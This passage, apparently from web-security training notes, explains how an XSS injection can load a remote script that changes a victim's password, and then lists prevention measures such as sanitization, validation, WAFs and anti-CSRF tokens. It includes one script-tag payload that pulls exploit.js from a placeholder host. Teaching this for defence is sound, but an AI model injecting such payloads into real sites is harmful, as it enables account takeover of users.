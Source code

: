 - Following this example, instead of using **JavaScript** code that would return the session cookie, we would load a remote **.js** (**JavaScript**) file, as follows:

```
"><script src=//www.example.com/exploit.js></script>
```

- The **exploit.js** file would contain the malicious **JavaScript** code that changes the user's password.

- Developing the **exploit.js** in this case requires knowledge of this web application's password changing procedure and **APIs**.

- The attacker would need to create **JavaScript** code that would replicate the desired functionality and automatically carry it out (i.e., **JavaScript** code that changes our password for this specific web application).

### Prevention

- Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without comunicating with the back end.

| **Type** | **Description** |
|----------|-----------------|
| Sanitization | Removing special characters and non-standard characters from user input before displaying it or storing it.|
| Validation | Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)|

- Furthermore, it is also important to sanitize displayed output and clear may special/non-standard characters.

- In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.

- Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like **HTML Injection**, **XSS**, or **CSRF**.

- Another solution would be to implement a **web application firewall (WAF)**, which should help to prevent injection attempts automatically.

- However, it should be noted that WAF solutions can potentially be bypassed, so developers should follow coding best practices and not merely rely on appliance to detect/block attacks.

- As for **CSRF**, many modern browsers have built-in anit-CSRF measures, which prevent automatically executing **JavaScript** code. Furthermore, many modern web applications have anti-CSRF measures, including certain HTTP headers and flags that can prevent automated requests (i.e., **anti-CSRF** token, or **http-only**/**X-XSS-Protection**).

- Certain other measures can be taken from a functional level, like requiring the user to input their password before changing it.

- Many of these types of vulnerabilities can still pose a major threat to the users of a web application. This is why these precautions should only be relied upon as a secondary measure, and developers should always ensure that their code is not vulnerable to any of these attacks.

- The **Cross-Site Request Prevention Cheat Sheet** from OWASP discusses the attack and prevention measures in greater detail.
